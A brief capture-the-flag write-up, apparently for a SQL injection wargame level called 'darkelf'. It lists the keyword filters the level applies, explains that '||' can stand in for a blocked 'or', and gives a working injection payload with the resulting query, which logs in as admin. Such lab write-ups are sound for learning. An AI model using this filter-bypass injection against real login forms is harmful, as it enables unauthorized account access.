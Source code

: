 Filter1(pw): `prob` | `_` | `.` | `()` | `'` | `"` | ``` ` ```

Filter2(pw): `or` | `and`

Bypass **or** with **||** (both all mean logical or. [Reference here](https://dev.mysql.com/doc/refman/8.0/en/built-in-function-reference.html) )

PW: `123' || id='admin' -- ;`

Payload: `?pw=123' || id='admin' -- ;`

Query: `select id from prob_darkelf where id='guest' and pw='123' || id='admin' -- ;'`



